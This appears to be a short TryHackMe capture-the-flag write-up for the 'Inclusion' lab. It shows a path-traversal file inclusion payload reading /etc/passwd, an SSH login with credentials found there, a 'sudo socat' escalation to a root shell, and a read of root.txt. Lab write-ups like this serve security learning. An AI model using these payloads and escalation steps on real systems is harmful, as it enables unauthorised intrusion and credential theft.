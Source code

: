 ```yaml
---
title: Inclusion
description: 'LFI to get SSH credentials and escalating to root with socat'
pubDate: 2021-06-26
category: 'tryhackme'
tags: []
image: ''
---
```


## LFI
view-source:http://10.10.202.16/article?name=../../../../../../../etc/passwd

```
...[snip]...
#falconfeast:rootpassword
...[snip]...

## USER
```bash
ssh falconfeast@10.10.202.16 <- rootpassword
```


## ROOT
```bash
sudo -l
```

Shows socat can be execute as root

```bash
sudo socat stdin exec:/bin/sh
```

## NOTES
The web app is running as root.

So to get the root flag:
`http://10.10.202.16/article?name=../../../../../../../root/root.txt`
